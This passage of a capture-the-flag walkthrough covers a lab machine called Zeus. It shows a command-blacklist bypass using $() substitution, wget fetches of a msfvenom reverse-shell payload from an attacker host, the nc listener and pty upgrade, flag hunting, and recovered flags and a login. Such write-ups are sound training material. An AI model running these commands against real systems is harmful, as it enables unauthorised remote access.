 Time for regroup all flags:

Flag 1{7daLI]}
Flag 2{tr09u2}
Flag 3{~ATXVfzXk}
Flag 4{d#B=TVf5}
Flag 5{XOIQMZ}

7daLI]tr09u2~ATXVfzXkd#B=TVf5XOIQMZ

```txt
░▒▓ -= ZEUS' 1-WAY SHELL =- ▓▒░

```
Here i enter many commands, but nothing seem work :).

```sh
echo "DAWN!"
Did not execute command because it was dangerous/backlisted!
```
lol, so... We'll see if commands are really execute:

    $ touch useless.file
    $ python2.7 -m SimpleHTTPServer 4444

On Zeus:

    wget http://192.168.2.215:4444/useless.file
    $(wget http://192.168.2.215:4444/useless.file)

Yes! we have a response with the last command. Let's try to create a more usefull file like a reverse shell.

    $ msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.2.215 LPORT=1234 --platform linux -a x64 -f elf -o rev

On Zeus:

    $(wget -O /tmp/rev http://192.168.2.215:4444/rev)
    $(chmod +x /tmp/rev)

On your machine:

    $ nc -lnvp 1234

Zeus, exec the payload:

    $(/tmp/rev)

Change the shell by `/bin/bash` with a classic:

    python -c 'import pty;pty.spawn("/bin/bash")'
    
Find a flag file, there are always a flag... lol:

    find / 2>/dev/null | grep -i flag
    cat /home/www-data/deamon/Flag_6.txt

```txt
Flag 6 {r98yf53k<2x} Knock Knock...Who's There. It's me HACKERMAN!

login: zeus:ALL_FLAGS_COMBINED
```
